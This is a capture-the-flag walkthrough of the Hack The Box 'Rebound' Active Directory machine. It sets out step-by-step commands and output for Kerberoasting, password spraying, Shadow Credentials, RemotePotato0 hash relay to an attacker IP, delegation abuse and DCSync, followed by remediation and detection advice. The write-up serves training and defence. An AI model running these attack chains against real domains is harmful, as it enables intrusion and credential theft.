



## HTB Rebound — Full Walkthrough

**Rebound** is an insane-difficulty Windows Active Directory machine from Hack The Box. The attack path chains anonymous SMB enumeration, unauthenticated Kerberoasting, Shadow Credentials abuse, cross-session NTLM relay via RemotePotato0, and a Resource-Based Constrained Delegation (RBCD) → Constrained Delegation chain to achieve full domain compromise.

---

## Machine Information

| Property               | Value                              |
| ---------------------- | ---------------------------------- |
| **OS**                 | Windows Server 2019                |
| **Difficulty**         | Insane                             |
| **Domain**             | `rebound.htb`                      |
| **DC Hostname**        | `DC01`                             |
| **IP Address**         | `10.129.229.114`                   |
| **Starting Access**    | Guest SMB / Null Session           |
| **Foothold Account**   | `ldap_monitor` / `1GR8t@$$4u`      |

---

## Attack Chain Overview



---

## Reconnaissance

### Port Scan

```shell
nmap -sC -sV -p- -oA nmap_report --min-rate 10000 10.129.229.114
```

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: rebound.htb0.)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664-49808/tcp  open  msrpc  Microsoft Windows RPC

Host script results:
| smb2-security-mode: 3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m58s
Service Info: Host: DC01; OS: Windows
```

The open ports (DNS, Kerberos, LDAP, SMB, Global Catalog, WinRM) confirm this is a domain controller. SMB signing is enforced, ruling out relay attacks against SMB itself.

### Host Configuration

```shell
echo "10.129.229.114  DC01 DC01.REBOUND.HTB REBOUND.HTB" | sudo tee -a /etc/hosts
```

Kerberos configuration for the realm:

```text title="/etc/krb5.conf"
[libdefaults]
    default_realm = REBOUND.HTB
    dns_lookup_kdc = true
    dns_lookup_realm = false
    ticket_lifetime = 24h
    renew_lifetime = 7d
    forwardable = true

[realms]
    REBOUND.HTB = {
        kdc = DC01.REBOUND.HTB
        admin_server = DC01.REBOUND.HTB
    }

[domain_realm]
    .rebound.htb = REBOUND.HTB
    rebound.htb = REBOUND.HTB
```

!!! tip "Quick Kerberos Config"
    NetExec can auto-generate this: `netexec smb <ip> -u '<user>' -p '<pass>' --generate-krb5-file krb5.conf`

---

## Enumeration

### SMB Share Enumeration

Guest access to SMB is permitted, revealing a readable `Shared` share (empty) and `IPC$`:

```shell
netexec smb 10.129.229.114 -u guest -p '' --shares
```

```text
SMB  10.129.229.114  445  DC01  [+] rebound.htb\guest:
SMB  10.129.229.114  445  DC01  Share           Permissions     Remark
SMB  10.129.229.114  445  DC01  -----           -----------     ------
SMB  10.129.229.114  445  DC01  ADMIN$                          Remote Admin
SMB  10.129.229.114  445  DC01  C$                              Default share
SMB  10.129.229.114  445  DC01  IPC$            READ            Remote IPC
SMB  10.129.229.114  445  DC01  NETLOGON                        Logon server share
SMB  10.129.229.114  445  DC01  Shared          READ
SMB  10.129.229.114  445  DC01  SYSVOL                          Logon server share
```

The `Shared` share contained no files. More importantly, `IPC$` read access enables RID brute-forcing.

### RID Brute-Forcing

With `IPC$` access via the guest account, we can enumerate domain users by cycling through RID values:

```shell
netexec smb 10.129.229.114 -u guest -p '' --rid-brute 10000 | grep SidTypeUser | grep -oP '(?<=rebound\\)\S+' > usernames.txt
```

```text title="usernames.txt"
Administrator
Guest
krbtgt
DC01$
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
winrm_svc
batch_runner
tbrady
delegator$
```

---

## Initial Access

### AS-REP Roasting

With the username list, we check for accounts with Kerberos pre-authentication disabled. These accounts return an encrypted TGT (AS-REP) that can be cracked offline.

```shell
impacket-GetNPUsers rebound/ -usersfile usernames.txt -outputfile hashesToCrack.txt -dc-ip 10.129.229.114
```

```text
$krb5asrep$23$jjones@REBOUND:85a8c3a9465e127d...snip...452d97f
```

Only `jjones` has `DONT_REQUIRE_PREAUTH` set. The AS-REP hash did not crack against `rockyou.txt` — but this account enables the next step.

### Unauthenticated Kerberoasting

A lesser-known technique: [Impacket's GetUserSPNs](https://github.com/fortra/impacket) supports requesting TGS tickets using a no-preauth account without valid credentials. This lets us Kerberoast service accounts without any domain authentication:

```shell
impacket-GetUserSPNs rebound.htb/ -no-preauth jjones -usersfile usernames.txt -outputfile hashesToCrack2.txt
```

This returned TGS hashes for `krbtgt`, `DC01$`, `ldap_monitor`, and `delegator$`. The only crackable target is `ldap_monitor` — computer accounts and `krbtgt` have system-generated 120+ character passwords.

### Cracking ldap_monitor

```shell
hashcat -a 0 -m 13100 ldap_monitor.hash /usr/share/wordlists/rockyou.txt
```

```text
$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$...snip...:1GR8t@$$4u
```

!!! success "Credential Obtained"
    `ldap_monitor` : `1GR8t@$$4u`

### Access Validation & Clock Skew

Testing the credential across protocols revealed LDAPS requires Kerberos authentication (channel binding enforced). Initial Kerberos attempts failed with `KRB_AP_ERR_SKEW` — a clock synchronization issue:

```shell
sudo ntpdate dc01.rebound.htb
```

After time sync, Kerberos-authenticated LDAP works:

```shell
netexec ldap 10.129.229.114 -k -u ldap_monitor -p '1GR8t@$$4u'
```

```text
LDAPS  10.129.229.114  636  DC01  [+] rebound.htb\ldap_monitor
```

!!! warning "Kerberos Clock Skew"
    Kerberos requires clocks to be within 5 minutes. Always sync with `ntpdate` or `faketime` before Kerberos operations on HTB machines.

### Password Spraying

Service account passwords are frequently reused. Spraying `1GR8t@$$4u` across all enumerated users:

```shell
netexec smb 10.129.229.114 -u usernames.txt -p '1GR8t@$$4u' --continue-on-success
```

```text
SMB  10.129.229.114  445  DC01  [+] rebound.htb\ldap_monitor:1GR8t@$$4u
SMB  10.129.229.114  445  DC01  [+] rebound.htb\oorend:1GR8t@$$4u
```

!!! success "Credential Obtained"
    `oorend` : `1GR8t@$$4u`

---

## Lateral Movement

### BloodHound Collection

With valid credentials, we collect AD relationship data via `bloodhound-python`. The default `-c All` crashes on this box due to an `objectprops` parsing bug, so we exclude it:

```shell
bloodhound-python -d REBOUND.HTB -ns 10.129.229.114 -k -u ldap_monitor -p '1GR8t@$$4u' \
  -c Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn --zip
```

```text
INFO: Found 16 users
INFO: Found 53 groups
INFO: Found 2 ous
INFO: User with SID S-1-5-21-...-7686 is logged in on dc01.rebound.htb
INFO: Compressing output into 20241219165359_bloodhound.zip
```

### BloodHound Analysis

The attack path from BloodHound:

1. `OOREND` → **AddSelf** → `SERVICEMGMT` group
2. `SERVICEMGMT` → **GenericAll** → `SERVICE USERS` OU
3. `WINRM_SVC` ∈ `SERVICE USERS` OU
4. `WINRM_SVC` → **PSRemote** → `DC01`



### Exploiting the ACL Chain

Adding `oorend` to `SERVICEMGMT` with [bloodyAD](https://github.com/CravateRouge/bloodyAD):

```shell
bloodyAD -d rebound.htb --dc-ip 10.129.229.114 -u OOREND -p '1GR8t@$$4u' add groupMember SERVICEMGMT OOREND
```

```text
[+] OOREND added to SERVICEMGMT
```

A cleanup script periodically removes added members. To persist, we write a GenericAll ACE directly on the OU:

```shell
bloodyAD -d rebound.htb --dc-ip 10.129.229.114 -u OOREND -p '1GR8t@$$4u' \
  add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
```

```text
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

### Shadow Credentials Attack

With GenericAll over the OU (and its child objects), we perform a [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) attack on `winrm_svc` using [certipy-ad](https://github.com/ly4k/Certipy). This writes to the `msDS-KeyCredentialLink` attribute, allowing PKINIT authentication without knowing the password:

```shell
certipy-ad shadow auto -account winrm_svc -target dc01.rebound.htb \
  -dc-ip 10.129.229.114 -u oorend@REBOUND.HTB -p '1GR8t@$$4u' -k
```

```text
[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Key Credential generated with DeviceID 'fd8da56c-802c-e8da-978a-bda7e701b198'
[*] Successfully added Key Credential to 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 4469650fd892e98933b4536d2e86e512
```

### Shell via Evil-WinRM

```shell
evil-winrm -i dc01.rebound.htb -u winrm_svc -H 4469650fd892e98933b4536d2e86e512
```

```text
*Evil-WinRM* PS C:\Users\winrm_svc\Documents>
```

!!! success "User Flag"
    `C:\Users\winrm_svc\Desktop\user.txt`

---

## Privilege Escalation

### Identifying tbrady's Active Session

A profile folder for `tbrady` exists on the DC despite having no PSRemote rights. Uploading [RunasCs](https://github.com/antonioCoco/RunasCs) reveals an active console session:

```shell
.\RunasCs.exe x x qwinsta -l 9
```

```text
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console           tbrady                    1  Active
```

### RemotePotato0 — Stealing tbrady's Hash

[RemotePotato0](https://github.com/antonioCoco/RemotePotato0) exploits DCOM activation to trigger cross-session NTLM authentication. With `tbrady` in Session 1, we relay his authentication to capture the NTLMv2 hash.

**Attacker** — forward port 135 to the target's port 9999:

```shell
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.229.114:9999
```

**Target** — trigger authentication from Session 1:

```shell
.\RemotePotato0.exe -m 2 -s 1 -x 10.10.14.104 -p 9999
```

```text
[*] Spawning COM object in the session: 1
[+] Received the relayed authentication on the RPC relay server on port 9997
[+] User hash stolen!

NTLMv2 Username : rebound\tbrady
NTLMv2 Hash     : tbrady::rebound:85e9596881c98920:4ba2f291b8e6405839f775486cad293f:0101000000000000...
```

### Cracking tbrady's Hash

```shell
hashcat -m 5600 -a 0 tbrady.ntlmv2hash /usr/share/wordlists/rockyou.txt
```

!!! success "Credential Obtained"
    `tbrady` : `543BOMBOMBUNmanda`

### Reading the gMSA Password

BloodHound shows `tbrady` has `ReadGMSAPassword` on `delegator$`:

```shell
netexec ldap 10.129.229.114 -d rebound.htb -k -u tbrady -p '543BOMBOMBUNmanda' --gmsa
```

```text
LDAPS  10.129.229.114  636  DC01  [+] rebound.htb\tbrady:543BOMBOMBUNmanda
LDAPS  10.129.229.114  636  DC01  Account: delegator$  NTLM: 4ba33add1108fe560429fc27a1bcab6b
```

!!! warning "gMSA Security Risk"
    Granting standard users `ReadGMSAPassword` negates the security benefit of gMSA's 240-byte random passwords. This permission should be restricted to the service's host accounts only.

---

## Domain Compromise

### Understanding the Delegation Setup

Enumerating `delegator$`'s delegation rights:

```shell
impacket-findDelegation 'rebound.htb/delegator$' -dc-ip 10.129.229.114 -k -hashes :4ba33add1108fe560429fc27a1bcab6b
```

```text
AccountName  AccountType                          DelegationType  DelegationRightsTo     SPN Exists
-----------  -----------------------------------  --------------  ---------------------  ----------
delegator$   ms-DS-Group-Managed-Service-Account  Constrained     http/dc01.rebound.htb  No
```

`delegator$` has Constrained Delegation to `http/dc01.rebound.htb`. Direct impersonation of `Administrator` fails because the account has `NOT_DELEGATED` set in its UAC flags. The workaround: impersonate `DC01$` (the machine account), which lacks this protection and has equivalent DCSync privileges.

### RBCD + Constrained Delegation Chain

The attack chains two delegation mechanisms:

1. **RBCD** — Allow `ldap_monitor` to impersonate `DC01$` to `delegator$`
2. **Constrained Delegation** — Use the resulting forwardable ticket with `delegator$`'s existing delegation rights

#### Step 1: Configure RBCD on delegator$

```shell
impacket-rbcd 'rebound.htb/delegator$' -hashes :4ba33add1108fe560429fc27a1bcab6b -k \
  -delegate-from ldap_monitor -delegate-to 'delegator$' -action write \
  -dc-ip dc01.rebound.htb -use-ldaps
```

```text
[*] Delegation rights modified successfully!
[*] ldap_monitor can now impersonate users on delegator$ via S4U2Proxy
```

#### Step 2: Obtain forwardable ticket as DC01$ via RBCD

```shell
impacket-getST 'rebound.htb/ldap_monitor:1GR8t@$$4u' -spn browser/dc01.rebound.htb -impersonate 'DC01$'
```

```text
[*] Impersonating DC01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
```

#### Step 3: Chain into Constrained Delegation

Use the RBCD ticket as an additional ticket for `delegator$`'s constrained delegation:

```shell
impacket-getST -spn "http/dc01.rebound.htb" -impersonate "dc01$" \
  -additional-ticket 'DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache' \
  "rebound.htb/delegator$" -hashes :4ba33add1108fe560429fc27a1bcab6b -k -no-pass
```

```text
[*] Using additional ticket DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache instead of S4U2Self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc01$@http_dc01.rebound.htb@REBOUND.HTB.ccache
```

```shell
export KRB5CCNAME=dc01\$@http_dc01.rebound.htb@REBOUND.HTB.ccache
```

!!! info "Why DC01$ instead of Administrator?"
    The `Administrator` account has `NOT_DELEGATED` set, blocking S4U2Proxy impersonation. The `DC01$` machine account has no such restriction and holds DCSync privileges (replication rights) by default.

### DCSync — Dumping Domain Admin

```shell
impacket-secretsdump -no -k dc01.rebound.htb -just-dc-user Administrator
```

```text
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:176be138594933bb67db3b2572fc91b8:::
```

### Pass-the-Hash — Domain Admin Shell

```shell
evil-winrm -i dc01.rebound.htb -u administrator -H 176be138594933bb67db3b2572fc91b8
```

```text
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

---

## Flags

| Flag | Location |
| ---- | -------- |
| **User** | `C:\Users\winrm_svc\Desktop\user.txt` |
| **Root** | `C:\Users\Administrator\Desktop\root.txt` |

---

## Lessons Learned & Remediation

### 1. Enforce Kerberos Pre-Authentication

`jjones` had `DONT_REQUIRE_PREAUTH` set, enabling unauthenticated Kerberoasting of all SPN-registered accounts.

- **Fix**: Audit with `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}` and enforce pre-auth on all accounts.
- **Detection**: Monitor Event ID 4768 where pre-auth type is 0 (no pre-auth).

### 2. Eliminate Password Reuse

`ldap_monitor` and `oorend` shared the same password, turning a service account compromise into lateral movement.

- **Fix**: Implement unique passwords per account. Use gMSA for service accounts where possible. Enforce password rotation policies.
- **Detection**: Correlate successful logons across multiple accounts from the same source.

### 3. Restrict OU Delegation Permissions

`SERVICEMGMT` group members held GenericAll over the `SERVICE USERS` OU, enabling Shadow Credentials attacks.

- **Fix**: Apply least-privilege delegation. Remove GenericAll; grant only specific attribute write permissions where needed. Audit with `Get-ACL` or [ADACLScanner](https://github.com/canix1/ADACLScanner).
- **Detection**: Monitor Event ID 5136 for changes to `msDS-KeyCredentialLink`.

### 4. Mitigate Cross-Session NTLM Relay

RemotePotato0 exploited DCOM activation to relay `tbrady`'s NTLM credentials across sessions.

- **Fix**: Disable NTLM where feasible (`Network security: Restrict NTLM` GPO settings). Apply [KB5004442](https://support.microsoft.com/en-us/topic/kb5004442) for DCOM hardening. Avoid interactive logons on domain controllers.
- **Detection**: Monitor Event ID 4624 (Type 3) with NTLM package on DCs.

### 5. Secure gMSA Password Readers

`tbrady` (a standard user) had `ReadGMSAPassword` on `delegator$`, exposing its NTLM hash.

- **Fix**: Limit `PrincipalsAllowedToRetrieveManagedPassword` to only the computer accounts that run the managed service.
- **Detection**: Audit gMSA password reader lists quarterly.

### 6. Audit Constrained Delegation & RBCD

The delegation chain (RBCD → Constrained Delegation) was possible because `delegator$` could write its own `msDS-AllowedToActOnBehalfOfOtherIdentity`.

- **Fix**: Restrict who can modify RBCD attributes on computer/gMSA objects. Use `Protected Users` group for high-privilege accounts to block delegation. Consider enabling `ADS_UF_NOT_DELEGATED` on sensitive accounts.
- **Detection**: Monitor Event ID 5136 for changes to `msDS-AllowedToActOnBehalfOfOtherIdentity`.

---

## References

- [Impacket](https://github.com/fortra/impacket) — Python library for AD attack tooling (GetNPUsers, GetUserSPNs, getST, secretsdump, rbcd)
- [NetExec](https://github.com/Pennyw0rth/NetExec) — Network execution and enumeration framework
- [bloodyAD](https://github.com/CravateRouge/bloodyAD) — Active Directory privilege escalation framework
- [Certipy](https://github.com/ly4k/Certipy) — AD CS and Shadow Credentials tooling
- [BloodHound.py](https://github.com/dirkjanm/BloodHound.py) — Python-based AD relationship collector
- [RemotePotato0](https://github.com/antonioCoco/RemotePotato0) — Cross-session NTLM relay via DCOM
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) — WinRM shell for penetration testing
- [Shadow Credentials — Elad Shamir](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [Wagging the Dog — Constrained Delegation Abuse](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
